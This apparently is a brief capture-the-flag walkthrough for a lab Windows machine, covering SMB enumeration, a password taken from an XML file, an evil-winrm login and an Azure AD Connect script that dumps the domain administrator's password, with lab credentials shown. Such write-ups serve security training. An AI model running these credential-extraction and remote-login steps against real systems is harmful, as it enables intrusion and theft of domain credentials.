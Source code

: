 # Montverde
## User

Enum4linux gave us some users that we need to try
after a painfull enumeration we can assume that SABatchJobs:SABatchJobs is the user:password we are looking for
we can now connect to the smb shares 
smbmap gave us some more infos 

in the users$ share we can find a xml file who gave us the password of the mhope user 

```
➜  evil-winrm git:(master) ruby evil-winrm.rb -i 10.10.10.172 -u mhope -p 4n0therD4y@n0th3r$
```
user.txt is in the Desktop folder

## Root

Exploit Azure AD Connect to get root paper here:
```
https://blog.xpnsec.com/azuread-connect-for-redteam/
```

tool is here:
```
https://github.com/Hackplayers/PsCabesha-tools/blob/master/Privesc/Azure-ADConnect.ps1
```
the exploit:
```
*Evil-WinRM* PS C:\Users\mhope\Desktop> . .\azure_adconnect.ps1
*Evil-WinRM* PS C:\Users\mhope\Desktop> azure-adconnect -server localhost -db adsync
[+] Domain:  MEGABANK.LOCAL
[+] Username: administrator
[+]Password: d0m@in4dminyeah!
```
rooted :D
